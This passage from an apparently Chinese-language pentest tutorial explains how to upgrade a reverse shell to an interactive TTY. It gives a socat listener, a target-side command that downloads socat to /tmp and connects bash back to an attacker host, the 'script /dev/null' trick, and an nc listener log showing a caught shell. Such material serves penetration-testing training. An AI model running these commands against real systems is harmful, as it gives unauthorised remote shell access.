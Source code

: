 ### 升级nc为交互shell
老实话没有什么区别，就上面那样，一样的。
### 使用socat

[socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat) 是类Unix系统下的一个工具，可以看作是 nc 的加强版。我们可以使用socat来传递完整的带有tty的TCP连接。缺点也很明显，只能在linux下面运行。

攻击机：

```
# 首先安装
$ sudo apt install socat
# 执行
$ socat file:`tty`,raw,echo=0 tcp-listen:[port]
```

目标机：

```
# 把socat上传到目标机器上或者直接下载
$ wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat
# 运行
$ chmod +x /tmp/socat
$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:[host]:[port]
```

这种方式基本和ssh类似，ctrl+C也不会直接断开。

## script获取pty

我们可以使用 Linux 系统下的 `script` 命令，在弹回来的 shell 下创建一个带有 tty 的 shell, 这样就可以勉强使用一下 `top` 和 `vim`

```
script /dev/null
tty
```

如果不加 `/dev/null` 的话，会在当前路径下生成一个名字是 `typescript` 的文件，记录着在 script 生命周期里你执行的所有命令和结果。

demo:

```
C:\Users\
λ nc -lvvp 4444
listening on [any] 4444 ...
connect to [192.168.2.134] from DESKTOP-IBUUT6H.lan [192.168.2.134] 30567
ubuntu@ubuntu:~$ tty
tty
not a tty
ubuntu@ubuntu:~$ script /dev/null
script /dev/null
Script started, file is /dev/null
ubuntu@ubuntu:~$ tty
tty
/dev/pts/1
```
更好：/usr/bin/script -qc /bin/bash /dev/null